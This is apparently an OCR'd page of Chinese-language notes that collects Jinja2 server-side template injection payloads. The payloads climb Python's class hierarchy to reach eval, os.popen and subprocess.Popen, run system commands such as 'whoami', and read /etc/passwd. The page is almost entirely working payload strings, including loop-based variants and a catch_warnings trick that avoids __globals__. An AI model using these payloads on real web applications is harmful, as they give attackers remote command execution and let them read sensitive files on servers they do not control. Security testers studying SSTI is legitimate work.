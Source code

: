```python
{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")}}

{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}

{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['__import__']('os').popen('whoami').read()}}

{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
```

又或者用如下两种方式，用模板来跑循环

```python
{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
```

或

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("whoami").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

读取文件payload

```
{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

然后这里再提一个比较少人提到的点

`warnings.catch_warnings`类在在内部定义了`_module=sys.modules['warnings']`，然后`warnings`模块包含有`__builtins__`，也就是说如果可以找到`warnings.catch_warnings`类，则可以不使用`globals`

```python
{{''.__class__.__mro__[1].__subclasses__()[40]()._module.__builtins__['__import__']("os").popen('whoami').read()}}
```

- subprocess.Popen

```
''.__class__.__mro__[1].__subclasses__()[260]('whoami',shell=True,stdout=-1).communicate()[0].strip()
```
